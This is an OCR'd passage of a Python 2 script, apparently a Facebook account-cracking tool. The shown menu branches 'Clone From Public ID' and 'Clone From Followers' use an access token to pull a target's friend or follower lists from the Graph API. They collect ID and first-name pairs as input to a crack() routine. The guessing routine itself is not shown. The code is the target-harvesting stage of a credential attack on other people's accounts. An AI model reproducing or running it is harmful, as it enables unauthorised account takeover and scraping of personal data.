 		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="2":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Public ID\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;97m Input ID :\033[1;93m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Have Privacy On Friendlist OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="3":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Followers\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;97m Input ID :\033[1;93m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Donot Have Followers OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=5000", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
			   